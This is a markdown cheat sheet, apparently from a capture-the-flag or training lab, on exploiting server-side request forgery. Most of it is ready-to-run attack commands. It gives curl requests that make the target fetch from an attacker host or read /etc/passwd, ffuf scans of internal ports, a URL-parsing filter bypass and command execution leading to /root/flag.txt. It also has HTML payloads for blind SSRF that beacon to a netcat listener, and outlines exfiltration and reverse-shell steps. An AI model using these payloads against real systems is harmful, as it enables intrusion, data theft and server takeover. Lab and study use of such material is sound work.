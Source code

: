 # Cheat Sheet: Server-Side Request Forgery (SSRF) Exploitation

## Introduction
- SSRF allows attackers to exploit servers to request internal/external resources.
- A successful SSRF attack can reveal sensitive information and lead to Remote Code Execution (RCE).

## Perform SSRF Enumeration
1. **Nmap Scan:**
   ```bash
   nmap -sT -T5 --min-rate=10000 -p- $TARGET
   ```

2. **Curl Commands:**
   - Initial request:
     ```bash
     curl -i -s http://$TARGET
     ```
   - Follow redirects:
     ```bash
     curl -s -i -L http://$TARGET
     ```

## Testing SSRF
1. **Netcat Listener:**
   ```bash
   nc -lnvp 8080
   ```

2. **Curl Test:**
   ```bash
   curl -i -s "http://$TARGET/load?q=http://$ATTACKER:8080"
   ```

## Exploiting with Different Schemas
1. **HTTP Schema:**
   - Create `index.html` on attacker machine.
   - Start HTTP server:
     ```bash
     python3 -m http.server $PORT
     ```
   - Curl Command:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$ATTACKER:8000/index.html"
     ```

2. **FTP Schema:**
   - Set up FTP server on attacker:
     ```bash
     sudo pip3 install twisted
     sudo python3 -m twisted ftp -p 21 -r ~
     ```
   - Curl Command:
     ```bash
     curl -i -s "http://$TARGET/load?q=ftp://$ATTACKER/index.html"
     ```

3. **File Schema:**
   - Retrieve `/etc/passwd`:
     ```bash
     curl -i -s "http://$TARGET/load?q=file:///etc/passwd"
     ```

## Further Exploitation
1. **Port Fuzzing:**
   - Create port wordlist:
     ```bash
     for port in {1..65535}; do echo $port >> ports.txt; done
     ```
   - Issue request on a random port:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://127.0.0.1:1"
     ```
   - Fuzz ports using ffuf:
     ```bash
     ffuf -w ./ports.txt:PORT -u "http://$TARGET/load?q=http://127.0.0.1:PORT" -fs 30
     ```

2. **Identify Open Port:**
   - Interact with services:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://127.0.0.1:5000"
     ```

## Exploiting Internal.app.local
1. **Curl Interaction:**
   - Interact with internal:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=index.html"
     ```

2. **Bypass Filter Protection:**
   - Bypass filter:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:1"
     ```

3. **Port Fuzzing for Internal:**
   - Fuzz ports with different Content-Length:
     ```bash
     ffuf -w ports.list:PORT -u "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:PORT" -fs 100
     ```

4. **Retrieve Interesting Files:**
   - Explore on port 5000:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:5000/"
     ```

5. **Command Execution:**
   - Execute commands:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:5000/runme?x=id"
     ```

6. **URL-encode Payloads:**
   - Using Cyberchef or JQ for URL-encoding.

7. **Retrieve Flag:**
   - Retrieve flag:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:5000/runme?x=cat%2520/root/flag.txt"

     ```

# Blind SSRF Cheatsheet

### Introduction:

- **Blind SSRF:** Vulnerability where SSRF is present but not displayed on the front end.
- **Detection:** Test if the server processes requests to external resources (own services or Burp Collaborator).

### Exploitation:

1. **Payload Creation:**
   - Create an HTML file (payload) for the application.
   ```html
   <!DOCTYPE html>
   <html>
   <body>
     <a>Hello World!</a>
     <img src="http://<10.10.15.54:5555/x?=viaimgtag">
   </body>
   </html>
   ```
   
2. **Netcat Listener:**
   - Set up Netcat listener: `nc -lnvp 5555`

3. **Upload HTML File:**
   - Upload the HTML file to the target.
   - Confirm vulnerability if response seen in Netcat listener.

4. **Exfiltration via Blind SSRF:**
   - Create HTML file for exfiltration.
   ```html
   <html>
       <body>
           <b>Exfiltration via Blind SSRF</b>
           <script>
           // JavaScript code for exfiltration
           </script>
        </body>
   </html>
   ```
   - Set up Netcat listener.
   - Upload HTML file and decode the obtained data.

5. **Leverage wkhtmltopdf:**
   - wkhtmltopdf's vulnerability for server takeover.
   - Create HTML file for file reading and exfiltration.

6. **Reverse Shell via Blind SSRF:**
   - Create HTML file for reverse shell.
   ```html
   <html>
       <body>
           <b>Reverse Shell via Blind SSRF</b>
           <script>
           // JavaScript code for reverse shell
           </script>
       </body>
   </html>
   ```
   - Set up Netcat listener: `nc -lnvp 5555`
   - Upload HTML file to get a reverse shell.


*Note: Always ensure ethical and legal use of these techniques. Unauthorized access and exploitation of systems is against the law.*
